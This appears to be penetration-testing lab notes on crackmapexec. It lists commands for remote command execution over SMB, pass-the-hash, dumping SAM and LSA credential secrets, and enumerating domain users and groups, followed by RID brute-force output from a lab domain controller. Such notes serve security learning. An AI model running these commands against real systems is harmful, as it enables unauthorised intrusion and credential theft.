 [**#Execute Commands**]

crackmapexec can execute commands **abusing** any of **mmcexec, smbexec, atexec, wmiexec** being **wmiexec** the **default** method. You can indicate which option you prefer to use with the parameter `--exec-method`:
```bash
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`crackmapexec smb 192.168.56.103 -d 'SOUPEDECODE.LOCAL' -u 'charlie' -p 'charlie' --rid-brute | tee ./out.txt`:
```
SMB         192.168.56.103  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.103  445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         192.168.56.103  445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.56.103  445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
SMB         192.168.56.103  445    DC01             501: SOUPEDECODE\Guest (SidTypeUser)
SMB         192.168.56.103  445    DC01             502: SOUPEDECODE\krbtgt (SidTypeUser)
SMB         192.168.56.103  445    DC01             512: SOUPEDECODE\Domain Admins (SidTypeGroup)
SMB         192.168.56.103  445    DC01             513: SOUPEDECODE\Domain Users (SidTypeGroup)
SMB         192.168.56.103  445    DC01             514: SOUPEDECODE\Domain Guests (SidTypeGroup)
SMB         192.168.56.103  445    DC01             515: SOUPEDECODE\Domain Computers (SidTypeGroup)
SMB         192.168.56.103  445    DC01             516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
SMB         192.168.56.103  445    DC01             517: SOUPEDECODE\Cert Publishers (SidTypeAlias)

[...]

SMB         192.168.56.103  445    DC01             1000: SOUPEDECODE\DC01$ (SidTypeUser)
SMB         192.168.56.103  445    DC01             1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
SMB         192.168.56.103  445    DC01             1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
SMB         192.168.56.103  445    DC01             1103: SOUPEDECODE\bmark0 (SidTypeUser)
SMB         192.168.56.103  445    DC01             1104: SOUPEDECODE\otara1 (SidTypeUser)
SMB         192.168.56.103  445    DC01             1105: SOUPEDECODE\kleo2 (SidTypeUser)
SMB         192.168.56.103  445    DC01             1106: SOUPEDECODE\eyara3 (SidTypeUser)

[...]
```
